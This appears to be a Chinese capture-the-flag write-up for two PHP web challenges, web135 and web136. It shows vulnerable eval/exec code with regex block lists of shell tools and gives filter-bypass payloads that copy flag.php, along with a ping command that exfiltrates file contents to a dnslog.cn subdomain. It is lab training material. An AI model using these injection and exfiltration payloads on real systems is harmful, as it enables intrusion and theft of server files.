 ## web135~rce nl,cp,mv

```php
<?php
    
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

在133的基础上增加了curl和其他一些字符的过滤，

可以写文件。

```php
?F=`$F `;nl flag*>1.txt
```

也可以

```php
?F=`$F`; cp flag.php 2.txt
?F=`$F`; mv flag.php 3.txt
```



http://dnslog.cn/

申请一个域名。但是这种方法不行，可能域名前缀不行吧。

```
payload:F=`$F `;ping `awk '/flag/' flag.php`.1mlbcw.dnslog.cn
```

## web136~linux tee命令

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?> 
```
